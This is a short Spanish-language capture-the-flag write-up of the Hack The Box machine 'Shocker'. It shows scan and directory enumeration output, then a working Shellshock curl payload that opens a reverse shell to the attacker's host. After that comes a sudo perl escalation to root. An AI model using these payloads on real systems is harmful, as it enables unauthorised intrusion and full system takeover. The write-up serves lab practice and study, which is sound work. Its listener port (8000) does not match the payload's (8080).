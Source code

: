 # Shocker ![Avatar](https://www.hackthebox.eu/storage/avatars/efef52a0fb63d9c8db0ab6e50cb6ac79_thumb.png)
Maquina sencilla centrada en una vulnerabilidad real, la llamada Shellshock

Interesante: Shellshock
## Initial Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18  (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```
Dentro de cgi-bin usamos otra vez gobuster pero con extensiones de ejecutables esta vez php,c,pl,py,sh y encontramos un .sh
```
/user.sh (Status: 200)
```
## Exploit
Parece que tenemos todos los ingredientes para ejecutar un ataque mediante shellshock apache mod_cgi remote exploit
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/bash -i >& /dev/tcp/MyIP/8080 0>&1 ' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
```
Abrimos un listener en local en el puerto 8000 y con esto ya tenemos shell como shelly
## Privesc
```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Ejecutamos lo siguiente
```
sudo perl -e 'exec "/bin/bash";'
```
Y obtenemos shell como root
